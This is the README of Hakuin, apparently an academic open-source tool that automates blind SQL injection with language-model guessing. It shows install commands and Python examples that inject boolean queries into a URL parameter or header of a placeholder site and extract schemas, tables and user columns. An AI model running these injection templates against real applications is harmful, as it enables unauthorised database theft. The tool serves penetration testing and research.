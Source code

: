 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework and tool written in Python 3. It abstracts away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin utilizes a variety of optimization methods, including pre-trained and adaptive language models, opportunistic guessing, parallelism, and more.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
hk -h
```

Note that installation is optional and you can use Hakuin directly from the source codes:
```
git clone https://github.com/pruzko/hakuin
cd hakuin
python3 hk.py -h
```

## Command Line Tool
Hakuin ships with an intuitive tool called `hk` that offers most of Hakuin's features directly from the command line. To find out more, run:
```
hk -h
```

## Custom Scripting
Sometimes, BSQLI vunerabilities are too tricky to be exploited from the command line and require custom scripting. This is where Hakuin's Python package shines, giving you total control over the extraction process.

To customize exploitation, you need to instruct Hakuin on how to inject its queries. This is done by deriving a class from the `Requester` and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import aiohttp
from hakuin import Requester

class StatusRequester(Requester):
    async def request(self, ctx, query):
        r = await aiohttp.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    async def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = await aiohttp.get(f'http://vuln.com/', headers=headers)
        return 'found' in await r.text()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Hakuin currently supports `SQLite`, `MySQL`, `PSQL` (PostgreSQL), and `MSSQL` (SQL Server) DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite/MySQL/PSQL/MSSQL
```python
import asyncio
from hakuin import Extractor, Requester
from hakuin.dbms import SQLite, MySQL, PSQL, MSSQL

class StatusRequester(Requester):
    ...

async def main():
    ext = Extractor(requester=StatusRequester(), dbms=SQLite())
    ...

if __name__ == '__main__':
    asyncio.get_event_loop().run_until_complete(main())
```

Now that eveything is set, you can start extracting DB metadata.

##### Example 1 - Extracting DB Schemas/Tables/Columns
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained model
schema_names = await ext.extract_schema_names(strategy='model')             # extracts schema names
tables = await ext.extract_table_names(strategy='model')                    # extracts table names
columns = await ext.extract_column_names(table='users', strategy='model')   # extracts column names
metadata = await ext.extract_meta(strategy='model')                         # extracts all table and column names
```

Once you know the DB structure, you can extract the actual content.

##### Example 1 - Extracting Column Data
```python
# text_strategy:    Use this strategy if the column is text
res = await ext.extract_column(table='users', column='address', text_strategy='dynamic')    # detects types and extracts columns

# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = await ext.extract_column_text(table='users', column='address', strategy='dynamic')    # extracts text columns
res = await ext.extract_column_int(table='users', column='id')                              # extracts int columns
res = await ext.extract_column_float(table='products', column='price')                      # extracts float columns
res = await ext.extract_column_blob(table='users', column='id')                             # extracts blob columns
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
